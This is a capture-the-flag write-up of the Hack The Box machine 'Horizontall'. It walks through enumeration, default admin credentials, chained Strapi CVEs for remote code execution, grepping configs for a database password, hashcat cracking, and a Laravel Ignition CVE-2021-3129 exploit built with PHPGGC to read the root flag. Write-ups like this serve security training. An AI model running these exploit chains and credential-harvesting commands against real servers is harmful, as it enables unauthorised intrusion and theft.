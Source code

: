 > Author: **[wail99][author-profile]**

## Discovery

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

The webpage is dynamically generated, it's a huge heap of JS. So I switched to searching
for endpoints, in particular APIs:

```javascript
r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
```

```bash
curl -i -s -k -X GET http://api-prod.horizontall.htb/reviews
# HTTP/1.1 200 OK
# Server: nginx/1.14.0 (Ubuntu)
# Date: Fri, 03 Sep 2021 15:42:49 GMT
# X-Powered-By: Strapi <strapi.io> <========== HERE
# [{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```

The first website was completely frozen, we leave it for the Strapi API with
all the promising CVEs.

`admin/src/containers/InputModalStepperProvider/index.js` has a `/proxy?url=`
functionality which could be abused to route to internal IPs and access private
IPs available to the server.

A basic directory enumeration gives us:

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60] 
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60] 
/Reviews              (Status: 200) [Size: 507]
```

`http://api-prod.horizontall.htb/users` is forbidden, but the admin page is
accessible. Here I caught another break:

> admin:admin

```json
{
    "jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNjcxMTE0LCJleHAiOjE2MzMyNjMxMTR9.VjOpD6TxXsOXyZ_HQGaEi6P_lZuwh7T_fIsm4bc4XX8",
    "user":{
        "username":"admin",
        "id":3,
        "email":"admin@horizontall.htb",
        "blocked":null,
        "isAdmin":true
    }
}
```

## Footfhold

This is certainly the handyword of another player since there's a [CVE on Strapi][strapi-cve-2019-18818]
to reset the password of anyone, without authentication.

Then [another CVE][article-strapi-cve-2019-19609] grants RCE by exploiting an insecure system call when
installing plugins.

So chaining the two actually gives RCE from scratch! Also there's a [great script][exploit-strapi-cves]
ready-made on Exploit DB.

With these, we land on the box as user strapi:

```bash
python exploits/cve-2019-18818.py http://api-prod.horizontall.htb
```

## Escalation

First of all, upload a ssh key for shellter.

### Get developer?

Just follow the trail:

```bash
grep -ria password . | tee pw.tmp
# ./config/environments/development/database.json:        "password": "#J!:F9Zt2u"
cat config/environments/development/database.json
# {
#   "defaultConnection": "default",
#   "connections": {
#     "default": {
#       "connector": "strapi-hook-bookshelf",
#       "settings": {
#         "client": "mysql",
#         "database": "strapi",
#         "host": "127.0.0.1",
#         "port": 3306,
#         "username": "developer",
#         "password": "#J!:F9Zt2u"
#       },
#       "options": {}
#     }
#   }
# }
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'show tables;'
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'select * from strapi_administrator;'
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# | id | username | email                 | password                                                     | resetPasswordToken | blocked |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# |  3 | admin    | admin@horizontall.htb | $2a$10$svfqkU62mjQ5UwYlf2uFKO0ueTYJ61WJ5qS/.EbdLWsXVAXoMPcX6 | NULL               |    NULL |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
```

However cracking it requires some unquantified effort:

```bash
echo '$2a$10$svfqkU62mjQ5UwYlf2uFKO0ueTYJ61WJ5qS/.EbdLWsXVAXoMPcX6' > admin.hash
hashcat -a 0 -m 3200 -w 6 -S admin.hash /usr/share/wordlists/passwords/rockyou-75.txt
```

The later fails and the bruteforce on the full list takes too long. There must
be something else.

### Laravel ignition CVE

Let's inspect the network sockets:

```bash
ss -tap
# LISTEN    0    128    127.0.0.1:8000    0.0.0.0:*
```

The port 8000 looks like another webserver:

```bash
curl -i http://127.0.0.1:8000 | tee internal.html
#                     <div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
#                             Laravel v8 (PHP v7.4.18)
#                     </div>
```

![][strapi-version]

This version of Laravel is in debug mode by default which opens a path for
exploitation. As [cfreal][cfreal-blog] explains in the [corresponding article][article-laravel-cve-2021-3129],
the Ignition module allows to write to the log file and exploit a gadget chain
from there.

The author released a [script][exploit-laravel-cve-2021-3129] that works along his framework
[PHPGGC][phpggc]: ie I didn't need to read anything before getting root!

```bash
# ssh tunnel to access the remote server from the local port 8000
ssh -L 8000:127.0.0.1:8000 -i ../.ssh/id_rsa strapi@10.10.11.105
# gadget chain = payload
php -d'phar.readonly=0' /usr/share/phpggc/phpggc \
    --phar phar -o exploits/laravel-ignition-flag.phar \
    --fast-destruct monolog/rce1 system 'cat /root/root.txt'
# exploit
python exploits/laravel-ignition-rce.py http://localhost:8000 exploits/laravel-ignition-flag.phar
```

[author-profile]: https://app.hackthebox.eu/users/4005
[article-laravel-cve-2021-3129]: https://www.ambionics.io/blog/laravel-debug-rce
[article-strapi-cve-2019-19609]: https://bittherapy.net/post/strapi-framework-remote-code-execution/
[cfreal-blog]: https://cfreal.github.io/
[exploit-laravel-cve-2021-3129]: https://github.com/ambionics/laravel-exploits
[exploit-strapi-cves]: https://www.exploit-db.com/exploits/50239
[phpggc]: https://github.com/ambionics/phpggc
[strapi-cve-2019-18818]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818
[strapi-version]: images/strapi-version.png
